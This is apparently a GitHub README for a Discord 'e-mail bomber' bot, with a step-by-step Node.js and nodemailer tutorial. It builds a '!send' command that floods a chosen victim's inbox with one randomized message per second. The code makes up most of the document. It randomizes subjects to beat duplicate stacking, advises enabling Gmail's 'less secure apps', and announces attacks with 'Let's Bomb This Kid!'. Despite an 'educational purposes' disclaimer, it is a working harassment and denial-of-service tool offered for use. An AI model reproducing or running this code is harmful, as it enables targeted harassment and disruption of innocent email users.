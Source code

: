 # Discord Bot E-mail Bomber
## Warning!
This bot is against Discord ToS and can get you banned for using it!  
I'm not responsible for anything that is done/happens with this source code.  
This code is strictly for educational purposes.  
By copying or using any of the code below you agree that you have read this.  
*Use this at your own risk*  
*Please do not edit the credits!*
*Bot  Created by Mental#1424 and Exploit#1337*  
[Email Bombing Video](https://www.youtube.com/watch?v=kquNr_DV_Rc)  
[Email Bombing V2 Video](https://youtu.be/8hPAveapX8w)  
for any issue, join [this discord server](https://discord.gg/hQZyAmp)

## CHANGELOG
Version 2 - Edited the spamming delay time, now you can choose the mail text, free libero.it account for spamming given. Check indexV2.js  
\
Version 1 - Bot Created  

## Description
With this bot, you can bomb any email address by running a simple command.  
The E-mail subject and body will be randomized in all new mails, so there is not any chance that a new mail is a reply to the first.    
All this complex system is activated by the simple command ```!send mail@mail.com```   

## Installing
First, we need to install [Nodemailer](https://nodemailer.com/about/) using npm  
```bash
npm install nodemailer --save
```
## Starting
Now we need to declare nodemailer at the bottom of our code and a boolean called "spamming" that will be used later in the code  
```javascript
const Discord = require('discord.js');
const client = new Discord.Client();
const prefix = "!"
const nodemailer = require("nodemailer");
var spamming;
```

## Client On Message
It's time to start coding, you can find the whole code in index.js or follow this guide to create your own.  
In this bit of code we declare args and some other stuff that is required on the message event.   
```javascript
client.on('message', async msg => {
    var args = msg.content.split(' ').slice(1);
    var command = msg.content.toLowerCase().slice(prefix.length).split(' ')[0];
    if(msg.author.bot) return;
 ```
## Send Command
We need to create our send command and make a function to randomize the emails to avoid duplicates.  
Duplicates are bad because it will stack in the inbox and not be effective.  

```javascript    
if (command === 'send') {
  if (spamming == true) return msg.reply("A mail bombing is already active! Please use '!stop' before a new attack"); //Check if the spamming variable is true

    if (!args[0]) 
        return  msg.reply("You need to insert a mail target!"); //If email is not specified, you get this reply message.

        
        function randomLetters(length) { //Here you create your random letters and number function.
          var text = "";
          var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
          for (var i = 0; i < length; i++)
            text += possible.charAt(Math.floor(Math.random() * possible.length));
             return text;
          }

       
          
        var mailto = args[0] //the variable mailto will be the arg[0] (the target e-mail)
        var mailtxt = (randomLetters(10)) //The mail's text will be 10 random letters and numbers choosed by the var "possible"
 ```
        
##  SMTP Server Connection
Now let's create the connection with the smtp server  
WARNING: If you are using gmail under user and pass you put the email and password. YOU MUST HAVE LESS SECURE APPS ON TO USE GMAIL!
```javascript
        let transporter = nodemailer.createTransport({
            host: "server", //smtp server
            port: 25,
            secure: false, // true for 465, false for other ports
            auth: {
              user: 'mail', 
              pass: 'password' 
            }
          });
```
##  E-Mail Config
And now we make the config for the emails
```javascript
let mailOptions = {
            from: '"Name" <e-mail>', // sender address
            to: mailto, // list of receivers, in this case, the "mailto" variable
            subject: (randomLetters(8)), // Subject is made by 8 random characters
            text: mailtxt, // text body, made from mailtxt variable
            html: "<b>" + mailtxt + "</b>" // html body
          };
```
##  Spamming Process
Here is where we make our spam functions and setInterval to make it keep spamming.  

```javascript
async function sendMail() {
          let info = await transporter.sendMail(mailOptions) //You load the mail options
          spamming = true; //You set the variable "spamming" to true, when it's on true, you can't launch other attacks
          }
          

            const spammingMessage = setInterval(() => { //You make a loop of the command, so it spams over and over
              var mailto = args[0]
                  mailOptions.subject = (randomLetters(8)) //You change the mail object, so it's everytime a new email and not a reply to the first one
                  var mailtxt = (randomLetters(10))
          
                      sendMail();
                      
                  }, 1000);

        msg.channel.send({embed: { //You create an embed with all the informations
            color: 3447003,
            author: {
              name: client.user.username,
              icon_url: client.user.avatarURL
            },
            title: "Bombing",
            description: "Bot Developed By Mental#1424",
            fields: [{
                name: "Let's Bomb This Kid!",
                value: "Bombing In Progress..."
              },
            {
                name: "Target Mail",
                value: mailto,
              },

            ],
            timestamp: new Date(),
            footer: {
              icon_url: client.user.avatarURL,
              text: "© Discord Mail Bomber"
            }
            
            
          }
          
        });
      }
```
##  Stopping The bombing
The stop command:
```javascript 
if(command === "stop") { //Stop the mail bombing
        if (spamming == false) return msg.reply("There isn't any active bombing!") //if you are not spamming, you can't stop the mail bombing.
        msg.channel.send("Stopped! Bot Shutdown")
        client.destroy() //The bot shut down
    }
```
##  Credits and info
All the information about the bot and the developers.
```javascript
    if(command === "info") { //Please do not edit this
      msg.channel.send({embed: {
          color: 3447003,
          author: {
            name: client.user.username,
            icon_url: client.user.avatarURL
          },
          title: "Info",
          description: 'Bot developed by Mental#1424'+'\n'+'Special Thanks To: ' + 'Exploit#1337',
          fields: [{
              name: "Find Me On Github!",
              value: "[Click This](https://github.com/MyNameIsMental)"
            },
           {
              name: "The bot is open source on github!",
              value: "[Click This](https://github.com/MyNameIsMental/discord-email-bombing)"
            },

          {
              name: "Command Sytax",
              value: "!send targetmail@targetmail.com text"
            },

            {
              name: "Stop",
              value: "Use !stop for stopping the mail bombing"
            }
          ],
          timestamp: new Date(),
          footer: {
            icon_url: client.user.avatarURL,
            text: "© Discord Mail Bomber"
          }
        }
      })
        };

    }) 
    ```
